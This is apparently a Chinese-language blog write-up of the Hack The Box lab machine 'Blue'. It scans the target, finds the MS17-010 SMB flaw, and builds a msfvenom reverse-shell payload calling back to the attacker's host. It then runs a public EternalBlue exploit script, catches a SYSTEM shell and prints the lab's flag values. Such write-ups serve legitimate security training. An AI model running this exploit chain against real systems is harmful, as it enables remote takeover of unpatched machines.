 # HTB靶机 Blue WriteUp


<!--more-->

## Blue 简介

![图片](/resource/HTB靶机-Blue-WriteUp.assets/640-20230220175612205.png)

OS：Windows；			难度：Easy

## WriteUp

连接HTB靶场：`sudo openvpn  xxxx.ovpn`

测试靶机连通性：

```shell
 ┌──(xavier㉿xavier)-[~]
 └─$ ping -c 4 10.10.10.40
 PING 10.10.10.40 (10.10.10.40) 56(84) bytes of data.
 64 bytes from 10.10.10.40: icmp_seq=1 ttl=127 time=238 ms
 64 bytes from 10.10.10.40: icmp_seq=3 ttl=127 time=237 ms
 64 bytes from 10.10.10.40: icmp_seq=4 ttl=127 time=240 ms
 
 --- 10.10.10.40 ping statistics ---
 4 packets transmitted, 3 received, 25% packet loss, time 3035ms
 rtt min/avg/max/mdev = 237.404/238.524/240.313/1.277 ms
```

有点延迟和丢包，扫描探测结果可能不准确，需要复核。

## 0.SCAN

masscan 扫描全端口+ nmap 扫描详细端口信息

```shell
 ┌──(xavier㉿xavier)-[~]
 └─$ sudo masscan -e tun0 -p- --max-rate 500 10.10.10.40
 Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2022-03-21 05:48:42 GMT
 Initiating SYN Stealth Scan
 Scanning 1 hosts [65535 ports/host]
 Discovered open port 49156/tcp on 10.10.10.40
 Discovered open port 49152/tcp on 10.10.10.40
 Discovered open port 49154/tcp on 10.10.10.40
 Discovered open port 49155/tcp on 10.10.10.40
 Discovered open port 445/tcp on 10.10.10.40
 Discovered open port 49153/tcp on 10.10.10.40
 Discovered open port 49157/tcp on 10.10.10.40
 Discovered open port 135/tcp on 10.10.10.40
 Discovered open port 139/tcp on 10.10.10.40
 
 ┌──(xavier㉿xavier)-[~]
 └─$ sudo nmap -p135,139,445,49152-49157 -sSV 10.10.10.40 --script=default,vuln 
 Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-21 14:04 HKT
 Nmap scan report for 10.10.10.40
 Host is up (0.24s latency).
 
 PORT     STATE SERVICE     VERSION
 135/tcp   open msrpc       Microsoft Windows RPC
 139/tcp   open netbios-ssn Microsoft Windows netbios-ssn
 445/tcp   open microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
 49152/tcp open msrpc       Microsoft Windows RPC
 49153/tcp open msrpc       Microsoft Windows RPC
 49154/tcp open msrpc       Microsoft Windows RPC
 49155/tcp open msrpc       Microsoft Windows RPC
 49156/tcp open unknown
 49157/tcp open msrpc       Microsoft Windows RPC
 Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
 
 Host script results:
 | smb2-security-mode:
 |   2.1:
 |_   Message signing enabled but not required
 | smb-vuln-ms17-010:
 |   VULNERABLE:
 |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
 |     State: VULNERABLE
 |     IDs: CVE:CVE-2017-0143
 |     Risk factor: HIGH
 |       A critical remote code execution vulnerability exists in Microsoft SMBv1
 |       servers (ms17-010).
 |
 |     Disclosure date: 2017-03-14
 |     References:
 |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
 |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
 |_     https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
 |_clock-skew: mean: 4m02s, deviation: 6s, median: 3m58s
 |_smb-vuln-ms10-054: false
 | smb-security-mode:
 |   account_used: guest
 |   authentication_level: user
 |   challenge_response: supported
 |_ message_signing: disabled (dangerous, but default)
 | smb-os-discovery:
 |   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
 |   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
 |   Computer name: haris-PC
 |   NetBIOS computer name: HARIS-PC\x00
 |   Workgroup: WORKGROUP\x00
 |_ System time: 2022-03-21T06:09:59+00:00
 | smb2-time:
 |   date: 2022-03-21T06:09:58
 |_ start_date: 2022-03-21T05:42:34
 |_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
 
 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 Nmap done: 1 IP address (1 host up) scanned in 117.51 seconds
```

发现 存在 smb  ms17-010（CVE-2017-0143），操作系统为：Windows 7 Professional 7601 Service Pack 1 ，计算机名: haris-PC

非MSF

## 1. MS17-010 利用

不用msf去攻击

nmap 只有检测脚本，没有利用脚本，通过网络expdb、Github搜索利用工具。

最后找了这个：https://github.com/3ndG4me/AutoBlue-MS17-010

下载代码，并安装依赖，这里我使用了Pipenv创建了单独的环境。

```shell
 └─$ git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
 (HTB) ┌──(xavier㉿xavier)-[~/HTB/AutoBlue-MS17-010/
 └─$ pip install -r requirements.txt
```

制作利用代码，可以利用shellcode文件夹下的 shell_prep.sh 辅助生成。

这里直接使用msfvenom进行生成，并加入shellcode混合

```shell
 (HTB) ┌──(xavier㉿xavier)-[~/HTB/AutoBlue-MS17-010/
 └─$ nasm -f bin eternalblue_kshellcode_x64.asm -o evilKernel.bin
 
 (HTB) ┌──(xavier㉿xavier)-[~/HTB/AutoBlue-MS17-010/shellcode]
 └─$ msfvenom -p windows/x64/shell_reverse_tcp EXITFUNC=thread LHOST=10.10.14.2 LPORT=4444 -f raw -o evilReverse.bin
 [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
 [-] No arch selected, selecting arch: x64 from the payload
 No encoder specified, outputting raw payload
 Payload size: 460 bytes
 Saved as: evilReverse.bin
 
 (HTB) ┌──(xavier㉿xavier)-[~/HTB/AutoBlue-MS17-010/shellcode]
 └─$ cat evilKernel.bin evilReverse.bin > evilPayload.bin
```

依据Github 的Readme 命令帮助，输入目标ip，payload 和Groom连接数，执行利用脚本：

```shell
python eternalblue_exploit7.py <TARGET-IP> <PATH/TO/SHELLCODE/sc_all.bin> <Number of Groom Connections (optional)>
 (HTB) ┌──(xavier㉿xavier)-[~/HTB/AutoBlue-MS17-010]
 └─$ python3 eternalblue_exploit7.py 10.10.10.40 shellcode/evilPayload.bin 2
 shellcode size: 1232
 numGroomConn: 2
 Target OS: Windows 7 Professional 7601 Service Pack 1
 SMB1 session setup allocate nonpaged pool success
 SMB1 session setup allocate nonpaged pool success
 good response status: INVALID_PARAMETER
 done
 
 (HTB) ┌──(xavier㉿xavier)-[~/HTB/AutoBlue-MS17-010]
 └─$ python3 eternalblue_exploit7.py 10.10.10.40 shellcode/evilPayload.bin 24
 shellcode size: 1232
 numGroomConn: 24
 Target OS: Windows 7 Professional 7601 Service Pack 1
 SMB1 session setup allocate nonpaged pool success
 SMB1 session setup allocate nonpaged pool success
 good response status: INVALID_PARAMETER
 done
 
```

这里 `<Number of Groom Connections (optional)>`虽然是可选项，但经过多次不成功后，我按照参考文献2进行设置，同样在多次尝试后，成功获得shell，且为System权限。

```shell
 ┌──(xavier㉿xavier)-[~]
 └─$ nc -nlvp 4444
 listening on [any] 4444 ...
 connect to [10.10.14.2] from (UNKNOWN) [10.10.10.40] 49159
 Microsoft Windows [Version 6.1.7601]
 Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
 
 C:\Windows\system32>whoami
 whoami
 nt authority\system
 C:\Windows\system32>cd C:\Users\haris\Desktop
 cd C:\Users\haris\Desktop
 
 C:\Users\haris\Desktop>type user.txt
 type user.txt
 6349f910cd5b7ddae73521237f8e90c3
 
 C:\Users\haris\Desktop>type C:\Users\Administrator\Desktop\root.txt
 type C:\Users\Administrator\Desktop\root.txt
 3515d002af86dbfff3ce6f9bbffe7ede
```

利用他人的工具，最后做出来了，但让我意识到对漏洞的一知半解，在攻击过程中会消耗大量的时间，甚至走上弯路。平时需要加强对漏洞的研究，了解漏洞的相关影响因素。



MSF: 略

## 他山之石

- Hack The Box - Blue (Without Metasploit)  

- - 用了superscan
  - 用了其他exp，python2脚本

- Hack The Box - Blue Walkthrough without Metasploit 

- - 使用了同一种方法，numGroomConn 需要尝试多次

- WriteUp: HackTheBox Blue

- - 使用了kali自带的searchsploit 去找利用脚本，并进行修改利用


---

> 作者: Xavier  
> URL: https://www.bthoughts.top/posts/htb%E9%9D%B6%E6%9C%BA-blue-writeup/  


